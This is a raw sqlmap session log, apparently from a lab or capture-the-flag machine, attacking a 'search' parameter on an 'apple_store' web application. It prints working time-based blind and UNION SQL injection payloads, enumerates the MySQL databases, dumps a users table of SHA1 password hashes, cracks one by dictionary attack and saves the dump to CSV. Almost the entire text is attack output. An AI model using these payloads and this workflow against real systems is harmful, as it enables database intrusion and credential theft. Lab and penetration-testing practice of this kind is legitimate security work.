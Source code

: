 ```
[10:34:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=test' AND (SELECT 8749 FROM (SELECT(SLEEP(5)))qTux) AND 'NVPu'='NVPu

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716a707a71,0x4e4e49566876625a696f78554376434a656f7478576e6b7171427446716c685269424761574a6e4a,0x71716a7671),NULL,NULL-- -
---
[10:34:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:34:34] [INFO] fetching database names
available databases [5]:
[*] apple_store
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[10:34:34] [INFO] fetching columns for table 'users' in database 'apple_store'
[10:34:34] [INFO] fetching entries for table 'users' in database 'apple_store'
[10:34:34] [WARNING] reflective value(s) found and filtering out
[10:34:34] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[10:34:34] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[10:34:34] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[10:34:34] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[10:34:34] [INFO] starting 8 processes 
[10:34:40] [INFO] cracked password 'test' for user 'test'                                                                                                   
[10:34:40] [INFO] cracked password 'test' for user 'test'                                                                                                   
Database: apple_store                                                                                                                                       
Table: users
[4 entries]
+----+-------------------------------------------------+----------+
| id | password                                        | username |
+----+-------------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a        | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0        | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 (test) | test     |
| 4  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 (test) | diseo    |
+----+-------------------------------------------------+----------+

[10:34:41] [INFO] table 'apple_store.users' dumped to CSV file '/root/.local/share/sqlmap/output/172.17.0.2/dump/apple_store/users.csv'
[10:34:41] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.17.0.2'
```